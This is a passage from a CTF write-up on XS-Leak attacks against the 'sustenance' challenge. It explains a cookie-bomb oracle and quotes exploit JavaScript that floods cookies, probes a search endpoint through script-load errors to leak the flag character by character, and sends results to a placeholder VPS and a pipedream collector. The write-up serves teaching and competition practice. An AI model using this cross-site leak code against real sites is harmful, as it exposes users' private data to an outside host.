 ``` js
  }

  async function report(data) {
    console.log(data)
    // TODO: change to your VPS
    return fetch('https://YOUR_VPS/', { method: 'POST', body: data, mode: 'no-cors' }).catch(err => err);
  }
}
```

We can first leak the charset, and the speed will be much faster. There are still some small adjustments that can be made above, and the overall speed should be faster.

Later, my teammate also posted another writeup: [UIUCTF 2021- yana](https://ctf.zeyu2001.com/2021/uiuctf-2021/yana#this-shouldnt-have-worked), which revealed that headless chrome currently does not have cache partitioning.

I actually tested it myself and found that it is still the same now, so this question does not actually need to borrow from other questions, and you can set up an ngrok to solve it.

### Expected Solution

The expected solution should be the cookie bomb I mentioned above. First, set a lot of cookies, and then use the feature that the successful and failed URLs are different. If successful, the URL will be longer, the request will be too large, and the server will return an error. If it fails, nothing will happen.

The script below comes from Strellic and also needs to be used in other questions to run on the same site:

``` html
<>'";<form action='https://sustenance.web.actf.co/s' method=POST><input id=f /><input name=search value=a /></form>
<script>
    const $ = document.querySelector.bind(document);
    const sleep = (ms) => new Promise(r => setTimeout(r, ms));
    let i = 0;
    const stuff = async (len=3500) => {
        let name = Math.random();
        $("form").target = name;
        let w = window.open('', name);
        $("#f").value = "_".repeat(len);
        $("#f").name = i++;
        $("form").submit();
        await sleep(100);
    };
    const isError = async (url) => {
        return new Promise(r => {
            let script = document.createElement('script');
            script.src = url;
            script.onload = () => r(false);
            script.onerror = () => r(true);
            document.head.appendChild(script);
        });
    }
    const search = (query) => {
        return isError("https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query));
    };
    const alphabet = "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ";
    const url = "//en4u1nbmyeahu.x.pipedream.net/";
    let known = "actf{";
    window.onload = async () => {
        navigator.sendBeacon(url + "?load");
        await Promise.all([stuff(), stuff(), stuff(), stuff()]);
        await stuff(1600);
```